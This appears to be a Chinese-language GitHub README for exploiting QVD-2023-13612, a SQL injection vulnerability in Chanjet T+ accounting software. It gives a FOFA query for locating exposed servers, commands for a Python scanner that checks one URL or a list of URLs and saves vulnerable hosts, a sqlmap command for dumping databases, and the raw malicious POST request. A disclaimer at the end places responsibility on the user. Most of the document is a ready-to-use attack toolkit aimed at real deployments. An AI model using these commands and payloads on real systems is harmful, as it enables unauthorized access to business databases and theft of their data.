

# QVD-2023-13612

畅捷通T+ SQL注入漏洞

## fofa

app="畅捷通-TPlus"

## 影响范围

畅捷通T+ 13.0

畅捷通T+ 16.0
   
## 工具利用

python3 QVD-2023-13612.py -u http://127.0.0.1:1111 单个url测试

python3 QVD-2023-13612.py -f url.txt 批量检测 



扫描会自动保存存在漏洞的url到vuln.txt

## exp

python sqlmap.py -r sql.txt --dbs

```
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: {rhost ip}
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.506.23 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

{"accNum": "1", "functionTag": "functionTag*", "url": "1"}
```


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
